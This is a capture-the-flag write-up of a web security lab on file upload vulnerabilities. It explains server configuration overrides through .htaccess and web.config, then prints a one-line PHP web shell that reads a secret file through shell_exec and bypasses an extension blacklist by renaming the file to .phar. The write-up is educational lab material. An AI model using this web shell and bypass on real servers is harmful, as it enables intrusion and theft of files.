


## Overriding the server configuration

As we discussed in the previous section, servers typically won't execute files unless they have been configured to do so. For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present.

Similarly, developers can make directory-specific configuration on IIS servers using a `web.config` file. This might include directives such as the following, which in this case allows JSON files to be served to users:

```markup
<staticContent>
  <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests. However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type.

## Challenge

> we have to read the content of `/home/carlos/secret` to find the flag

I used the same payload as previous challenges :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> i just changed the filename `webshell.php` to `webshell.phar` and it got uploaded !

> Note: You can try other extensions also like `php3`,`php5`and `phtml`



--> And after copying the image path and pasting in url i got the secret !


